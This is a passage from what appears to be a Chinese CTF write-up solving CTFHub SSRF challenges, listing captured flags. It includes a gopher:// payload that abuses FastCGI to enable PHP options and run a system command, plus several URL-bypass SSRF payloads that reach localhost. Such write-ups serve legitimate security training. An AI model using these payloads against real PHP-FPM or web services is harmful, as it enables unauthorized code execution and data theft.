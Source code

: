flag: `ctfhub{a6723782f8ad2c52604d0def}`

### SSRF - FastCGI 协议

工具一把梭吧

```shell
$ docker run --rm -it python:2 bash
$ git clone https://github.com/tarunkant/Gopherus
```

```
http://challenge-7909afd9998d12ff.sandbox.ctfhub.com:10800/?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_7bafd1eb063b27aee55a0bb1081481cb%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

flag: `ctfhub{1fa6401725bb1aa6546237f1}`

### SSRF - Redis 协议

同上

flag: `ctfhub{70927d6cd719018a14cf0a6e}`

### SSRF - URL Bypass

```
http://challenge-f3d9397c4d8e9416.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com@localhost/flag.php
```

flag: `ctfhub{efbb10f91e3f891fa332b991}`

### SSRF - 数字 IP Bypass

```
http://challenge-a0657786d438dfe0.sandbox.ctfhub.com:10800/?url=http://localhost/flag.php
```

flag: `ctfhub{c15492312a1d211447b36959}`

### SSRF - 302 跳转

?

```
http://challenge-8346029fd5a95a49.sandbox.ctfhub.com:10800/?url=http://localhost/flag.php
```

flag: `ctfhub{4f4bb8649fdb70632bdb398c}`

